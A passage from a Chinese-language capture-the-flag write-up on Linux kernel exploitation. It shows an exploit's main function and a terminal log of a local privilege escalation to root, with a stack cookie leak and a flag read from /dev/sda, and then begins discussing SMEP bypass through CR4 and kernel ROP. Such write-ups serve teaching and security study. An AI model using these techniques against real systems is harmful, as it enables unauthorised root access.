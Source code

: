 最后，我们的脚本

```c
int main() {
    save_state();
    open_dev();
    leak();
    overflow();  
    puts("[!] Should never be reached");
    return 0;
}
```

result:

```bash
/ $ id
uid=1000 gid=1000 groups=1000
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: 6b6c612b1bbb5500
[*] Prepared payload
[*] Returned to userland
[*] UID: 0, got root!
/ # id
uid=0 gid=0
/ # cat /dev/s
sda       sg0       sg1       snapshot  sr0
/ # cat /dev/sda
hxp{t0p_d3feNSeS_Vs_1337_h@ck3rs}
```

## Add SMEP&Kernel-ROP

下面增加难度，开启`SMEP`缓解机制。在这之后，所有的用户空间页在内核态都是不可执行的。这使得我们的shellcode无法在内核态执行，`ret2usr`失效了。我们的目的依然没有变化，在内核态执行`commit_creds(prepare_kernel_cred(0))`。

此时，我们有两种思路：

- `SMEP`由CR4寄存器控制，我们改写CR4的第20比特，使`SMEP`失效；
- 在内核中寻找`gadget`构造ROP链，并返回。

### Trying to overwrite CR4

理论上，我们可以使用`native_write_cr4()`改变CR4的值，这个方法很简单直接。但是，人们也注意到了这让内核陷入无比危险的境地。所以，内核在启动时会将CR4固定，如果试图改变就会触发错误。[a documentation on CR4 bits pinning](https://patchwork.kernel.org/project/kernel-hardening/patch/20190220180934.GA46255@beast/)

这种方法不可行。

### 构造ROP chain

我们需要以下功能：
